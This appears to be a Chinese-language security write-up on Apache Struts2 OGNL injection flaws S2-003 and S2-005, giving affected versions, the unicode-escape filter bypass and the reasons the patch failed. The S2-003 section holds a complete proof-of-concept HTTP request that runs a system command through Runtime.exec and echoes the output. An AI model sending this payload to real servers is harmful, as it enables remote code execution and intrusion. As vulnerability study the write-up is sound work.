 
### 影响范围 {#影响范围}

Struts 2.0.0 - Struts 2.1.8.1


### 漏洞描述 {#漏洞描述}

Struts2 提供了广泛的 OGNL 表达式计算能力，甚至可以将参数名当作表达式来执行，而在
OGNL 中可以通过 # 来访问 struts 的对象，所以内置的 ParametersInterceptor 类会过
滤参数名中包含 # 在内的各种特殊符号来保证安全性

而 S2-003 就是通过 unicode 编码绕过 ParametersInterceptor 类中的正则过滤，用
`\u0023` 或者 `\43` 代替 #

poc:

```nil
GET /s2_war/index.action?(%27\u0023context[\%27xwork.MethodAccessor.denyMethodExecution\%27]\u003dfalse%27)(bla)(bla)&(%27\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET%27)(kxlzx)(kxlzx)&(%27\u0023mycmd\u003d\%27id\%27%27)(bla)(bla)&(%27\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)%27)(bla)(bla)&(A)((%27\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())%27)(bla))&(B)((%27\u0023myres\u003dnew\40byte[51020]%27)(bla))&(C)((%27\u0023mydat.readFully(\u0023myres)%27)(bla))&(D)((%27\u0023mystr\u003dnew\40java.lang.String(\u0023myres)%27)(bla))&(%27\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()%27)(bla)(bla)&(E)((%27\u0023myout.getWriter().println(\u0023mystr)%27)(bla)) HTTP/1.1
Host: 127.0.0.1:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,pt;q=0.7,da;q=0.6
Cookie: JSESSIONID=FC7DC2221FDB37EAE855C6E6A11E9CC1; _ga=GA1.1.267931382.1545202285
Connection: close
```


## S2-005 {#s2-005}


### 影响范围 {#影响范围}

Struts 2.0.0 - Struts 2.1.8.1


### 漏洞描述 {#漏洞描述}

该漏洞是对 S2-003 补丁的绕过，官方对 S2-003 的修复代码如下（左为 struts-2.0.8，右
为 struts-2.0.12）：

{{< figure src="/ox-hugo/2021-11-15_21-00-08_screenshot.png" >}}

{{< figure src="/ox-hugo/2021-11-15_21-00-17_screenshot.png" >}}

可见修复代码主要引入控制静态方法调用开关 allowStaticMethodAccess 变量，以及用于
控制成员变量访问权限的 SecurityMemberAccess 类对象，然而这两个变量都可以通过
OGNL 表达式控制，所以补丁并没有实际效果
